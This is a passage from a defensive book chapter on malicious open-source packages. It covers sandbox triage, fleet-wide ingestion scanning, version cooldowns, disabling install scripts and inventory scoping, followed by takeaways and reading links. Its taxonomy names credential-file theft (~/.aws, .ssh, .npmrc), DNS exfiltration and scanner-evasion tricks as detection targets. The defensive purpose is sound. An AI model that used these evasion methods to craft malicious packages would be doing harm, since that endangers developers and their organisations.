5. **Follow the stages.** If it's a dropper, capture the stage-2 URL and pull *that* in the
   sandbox — but expect gating; the server may serve benign content to your sandbox IP. If the
   package is environment-gated (nothing fired), don't conclude "clean" — note the gate
   conditions and re-run mimicking the target (the right CI env vars, hostname, arch).
6. **Extract IOCs and scope.** C2 hostnames, wallet addresses, dropped-binary hashes,
   exfil endpoints. Then pivot from "is this package bad" to "did it touch us" — query your
   fleet's SBOM/inventory (Book 3) for which services resolved that exact version, and hand the
   IOCs to incident response (Book 8).

## Distributed-systems lens

Everything above was about one package. A backend org runs thousands of services across hundreds
of repos, each pulling a large transitive graph, with builds firing continuously. The economics
of defense change completely at that scale, and they point at two controls that dominate all
others.

**Scan at ingestion, once, for the whole fleet.** The worst place to detect a malicious package
is on the developer's laptop or the individual CI job, because by then it has already executed —
install *is* execution — on N machines. The right place is the **internal proxy/registry**
(Chapter 8) that every build pulls through. A package entering the org for the first time is
scanned *before* it is cached and served: static heuristics (GuardDog/Socket/Semgrep) and,
ideally, a dynamic sandbox pass (Package Analysis), plus a check against the OSF
malicious-packages feed. A verdict computed once at the chokepoint protects every downstream
service that would ever pull it. This is the same architectural argument as Chapter 1's case for
an internal registry, now with a security payload: the proxy is not just a cache and an
availability decoupler, it is the *one place* where a scan has fleet-wide leverage. Ten thousand
build jobs should not each independently re-derive whether `left-pad@99.0.0` is safe.

**The cooldown / quarantine window is the cheapest high-value control you have.** Almost every
mass-impact incident in this chapter was a *smash-and-grab against the newest version*:
ua-parser-js's malicious releases were caught and removed within hours; typosquat and
dependency-confusion payloads are designed to fire the instant they resolve. A policy that
simply **refuses to adopt any package version younger than N days** — a quarantine or "minimum
age" cooldown — defeats the entire class, because by the time your builds are allowed to pull
`3.2.1`, the ecosystem's scanners, the maintainer, and other victims have had days to detect and
yank it. Renovate implements exactly this with `minimumReleaseAge` (formerly `stabilityDays`);
Artifactory and other proxies can enforce an equivalent age gate at ingestion. The cost is
mild — you adopt security fixes a few days later, which you reconcile with an expedited path for
genuine emergencies (Chapter 9). The benefit is that a window of days converts the ecosystem's
*collective, eventual* detection into *your prospective* protection, across every service, for
essentially free. Combine it with ingestion scanning and you have covered both the known-bad
(feeds, scanners) and the not-yet-known-bad (time).

**Turn install-time execution off by default, allowlist back on.** At fleet scale the CI default
should be `npm ci --ignore-scripts`, with a small, reviewed allowlist (e.g.,
`@lavamoat/allow-scripts`) re-enabling scripts only for the handful of packages that legitimately
need them. This neutralizes the dominant vector everywhere at once, and the allowlist makes the
exceptions visible and auditable. For Python, prefer wheels (`--only-binary`) over sdists where
possible, keeping installs on the no-code path.

**Feed detections into org-wide inventory.** A detection is only half the value; the other half
is *scope*. When a version is flagged — by your gate or by a late-breaking advisory for
something you already adopted — the question is instantly "which of our services pulled it, and
when did it run?" That answer comes from a fleet-wide SBOM/inventory (Book 3) keyed on exact
resolved versions and content hashes (which is why Chapter 2's insistence on committed,
hash-pinned lockfiles is load-bearing here). Ingestion scanning tells you *whether* to let a
package in; inventory tells you *who* is already exposed if one slips through, and hands incident
response (Book 8) a precise blast radius instead of a fleet-wide guess. The malicious-package
problem is, at scale, an inventory and chokepoint problem as much as a code-analysis problem.

## Key takeaways

- **Installing is executing.** In npm (lifecycle scripts), Python sdists (`setup.py`/PEP 517
  build hooks), and RubyGems (`gemspec` eval, `extconf.rb`), merely installing a package — even a
  deep transitive one you never named — runs attacker code with the invoking user's privileges
  and secrets. This is the #1 vector. `--ignore-scripts` neutralizes it but is all-or-nothing and
  does nothing for the other phases.
- **Three execution phases, gated differently.** Install-time (dominant, opt-out with scripts
  off), import-time (runs on `require`/`import`, no clean opt-out, better-targeted), and
  build-time (native addons, Rust `build.rs`/proc-macros, Gradle/Maven plugins — the phase that
  removes the "we don't run install scripts" defense; xz-utils lived here).
- **The payload taxonomy is your detection target list:** recon/beaconing (often DNS-exfil),
  credential theft (env, `~/.aws`/`.ssh`/`.npmrc`, metadata IP — Codecov), cryptominers
  (ua-parser-js XMRig), backdoors/RATs, wallet/clipboard stealers (event-stream/Copay),
  wipers/protestware (node-ipc), and multi-stage droppers with second-stage gating.
- **Evasion is designed to beat scanners:** obfuscation, real-library re-export, delayed and
  environment-gated activation (event-stream fired only in Copay; xz gated on distro/arch),
  sandbox detection, split payloads across versions/packages, and the sleeper/handover package
  that is benign for years then turns — which is why reputation-by-age is not enough and
  per-version scanning matters.
- **Detection needs all three modes.** Static heuristics (GuardDog, Socket, Semgrep) scale and
  catch capability/obfuscation signals; dynamic sandboxing (OpenSSF Package Analysis) sees
  through obfuscation and catches droppers but is defeated by gating/sandbox-detection;
  reputation/provenance signals (account age, cadence, repo-linkage/starjacking, sudden
  maintainer change) are individually weak and collectively decisive. This is *not* what
  `npm audit`/OSV vulnerability scanning does — malware has no CVE.
- **Triage safely:** disposable isolated VM, no real credentials (honeytoken decoys), full
  network+DNS+filesystem+process capture turned on *before* install, static-read before dynamic-run,
  follow the stages, extract IOCs, then scope against fleet inventory.
- **At scale, two controls dominate:** scan at ingestion so one scan protects the whole fleet,
  and impose a version cooldown (Renovate `minimumReleaseAge`, proxy age gates) that converts the
  ecosystem's eventual detection into your prospective protection and defeats nearly every
  smash-and-grab. Feed detections into SBOM-keyed inventory so a hit yields a precise blast
  radius, not a fleet-wide guess.


### Malicious package lifecycle




### Detection layers for malicious packages



## Further reading

- OpenSSF Package Analysis — dynamic sandboxing of newly-published packages
  (https://github.com/ossf/package-analysis).
- OpenSSF `malicious-packages` — confirmed-malicious package records in OSV format
  (https://github.com/ossf/malicious-packages).
- GuardDog (Datadog) — Semgrep-plus-metadata heuristics for npm and PyPI
  (https://github.com/DataDog/guarddog).
- Datadog `malicious-software-packages-dataset` — captured real malicious packages for detector
  research (https://github.com/DataDog/malicious-software-packages-dataset).
- Socket — behavioral/capability-diff supply-chain risk scanning (https://socket.dev).
- npm documentation on scripts and `--ignore-scripts`
  (https://docs.npmjs.com/cli/v10/using-npm/scripts) and LavaMoat `allow-scripts`
  (https://github.com/LavaMoat/LavaMoat).
- Python packaging: source distributions, build backends, and PEP 517
  (https://peps.python.org/pep-0517/), and the security note that wheels do not execute code at
  install while sdists do.
- PyPI security and project quarantine (https://blog.pypi.org/) — announcements of malware
  reporting and the quarantine feature.
- Alex Birsan, "Dependency Confusion: How I Hacked Into Apple, Microsoft and Dozens of Other
  Companies" (2021) — the beacon-based dependency-confusion research
  (https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610).
- The event-stream / flatmap-stream incident write-up and the GitHub issue thread
  (https://github.com/dominictarr/event-stream/issues/116).
- The xz-utils backdoor (CVE-2024-3094) — Openwall oss-security disclosure and Andres Freund's
  analysis (https://www.openwall.com/lists/oss-security/2024/03/29/4).
- Renovate `minimumReleaseAge` configuration for version cooldowns
  (https://docs.renovatebot.com/configuration-options/#minimumreleaseage).
